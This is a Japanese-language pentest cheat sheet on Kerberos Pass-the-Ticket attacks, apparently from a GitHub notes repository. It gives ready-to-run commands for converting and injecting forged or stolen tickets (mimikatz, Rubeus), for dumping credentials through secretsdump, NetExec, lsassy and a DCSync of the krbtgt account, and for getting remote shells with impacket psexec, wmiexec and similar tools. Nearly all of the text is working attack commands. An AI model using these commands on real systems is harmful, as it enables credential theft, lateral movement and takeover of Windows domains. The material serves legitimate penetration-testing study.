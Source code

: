 # Pass The Ticket

`Overpass the hash`、`Silver ticket`、`Golden ticket` 攻撃で偽造したり、取得したチケットを使用してパスワードを使うことなく認証を行うことができる

## チケットを UNIX <-> Windows に変換する

```
# Windows -> Linux
impacket-ticketConverter <TICKET_NAME>.kirbi <TICKET_NAME>.ccache

# Linux -> Windows
impacket-ticketConverter <TICKET_NAME>.ccache <TICKET_NAME>.kirbi
```

## Inject the ticket

### Linux

```
export KRB5CCNAME=<TICKET_NAME>.ccache
```

### Windows

mimikatz

````
kerberos::ptt <TICKET_NAME>
````

Rubeus

```
Rubeus.exe ptt /ticket:<TICKET_FILE>
```

読み込んだチケットの確認をするには `klist` コマンドでできる

## Passing the ticket

- Windowsでは、一度Kerberosチケットが読み込まれると特別な操作なく使用することができる
- Linuxでは、`KRB5CCNAME`変数がいったんエクスポートされると、Kerberos認証をサポートするツールでチケットを使用することができる

### 資格情報の取得

#### Linux

Impacket-Scripts

```
impacket-secretsdump -k <DOMAIN>/<USERNAME>@<Target_IP>
```

NetExec

```
netexec smb <Target_IP> -k --sam
netexec smb <Target_IP> -k --lsa
netexec smb <Target_IP> -k -M lsassy
```

Lsassy

```
lsassy -k <Target_IP>
```

#### Windows

mimikatz

```
lsadump::dcsync /dc:<DC_IP> /domain:<DOMAIN> /user:krbtgt
```

### Shellの取得・コマンド実行

#### Linux

impacket-scripts

```
impacket-psexec -k <DOMAIN>/<USERNAME>@<Target_IP>
impacket-smbexec -k <DOMAIN>/<USERNAME>@<Target_IP>
impacket-wmiexec -k <DOMAIN>/<USERNAME>@<Target_IP>
impacket-atexec -k <DOMAIN>/<USERNAME>@<Target_IP>
impacket-dcomexec -k <DOMAIN>/<USERNAME>@<Target_IP>
```

NetExec

```
netexec winrm <Target_IP> -k -x whoami
netexec smb <Target_IP> -k -x whoami
```

#### Windows

```
.\PsExec.exe -accepteula \\<Target_IP> cmd
```


